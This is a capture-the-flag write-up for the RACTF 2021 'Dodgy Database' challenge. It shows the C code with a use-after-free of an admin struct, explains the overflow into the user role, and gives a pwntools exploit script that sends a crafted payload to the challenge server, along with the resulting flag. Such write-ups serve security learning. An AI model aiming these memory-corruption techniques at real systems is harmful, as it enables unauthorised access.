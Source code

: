 ```yaml
---
title: "Ractf 2021 - Dodgy Database"
draft: false
tags: ['ractf', 'pwn']
---
```


The challenge was a part of the [Really Awesome CTF 2021](https://2021.ractf.co.uk/) and it can be viewed on [ctftime.org](https://ctftime.org/task/16986). 

Basically we are provided with a executable and its source code. Upon reading the source code we see that there is a 'GOD' role and if we are able to acquire that GOD role, the program prints the flag. The only way to input data is from stdin, where the challenge prompts for a new user to be created. 

The vulnerable piece of code is a free(admin) statement. 

{{< highlight c >}}
	// check registered
	if (!users_check_registered(users, admin, username)) {
		// register the user
		free(admin);
		User* user = user_create(username);
		users_register_user(users, admin, user);
	}
{{< / highlight >}}

To exploit this vulnerability, we need to be able to pass a specific hexadecimal value as input, which overflows the name field of the user struct. We initally spent a lot of time trying to achieve this manually. 

Finally resorted to using python and pwntools. Here is the exploit code

{{< highlight python >}}
#!/usr/bin/env python3
from pwn import *
LOCAL = False
if(LOCAL):
    elf  = ELF('./chall')
    s = elf.process()
else:
    s = remote('193.57.159.27', 44340)
prompt = s.recv()
send_data = b'aaaaaaaaaaaaaaaaaaaa' + p32(0xbeefcafe)
s.sendline(send_data)
print(s.recv())
s.close()
{{< / highlight >}}

which yields the flag

> Flag : ractf{w0w_1_w0nD3r_wH4t_free(admin)_d0e5}